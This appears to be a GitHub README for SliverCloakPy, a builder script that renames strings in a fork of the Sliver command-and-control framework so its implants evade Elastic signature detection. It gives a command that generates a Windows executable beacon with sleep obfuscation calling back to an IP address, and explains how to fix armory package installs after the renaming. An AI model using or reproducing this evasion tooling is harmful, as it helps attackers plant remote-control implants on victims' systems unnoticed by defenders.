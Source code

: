 # SliverCloakPy
Bypass common signature detections such as the ones from elastic.
Python script that does the job of slivercloak against armysick's sliver fork
slivercloak -> https://github.com/thelikes/slivercloak
armysick's sliver -> https://github.com/armysick/sliver

## Usage

Right now the script covers the Elastic Module, but you can replace whatever you want to be honest.
I did this small script because I have a hard time understanding all the work behind go, and I wanted to use armysick's fork, since it implements the ekko sleep module.

Just download the script and run `python3 builder.py`
This will automatically clone armysick's sliver, and get the necessary dependecies, afterwards, it will replace strings in the files and compile the proyect

Beacons are renamed to Krakens, and sliver-server/client is renamed to golder-server/client

## example of generating a beacon with ekko sleep obfuscation -B
```
generate kraken --http 10.10.10.134 -s /mnt/c/Payloads --arch amd64 --os windows -B -f exe
```

## armory problems fix
Since this is replacing strings, including the ones of armory, you wont be able to install armory packages straight away, here is a quick fix

```
armory add -u https://api.github.com/repos/sliverarmory/armory/releases -k "RWSBpxpRWDrD7Fe+VvRE3c2VEDC2NK80rlNCj+BX0gz44Xw07r6KQD9L" armory

armory install all
```
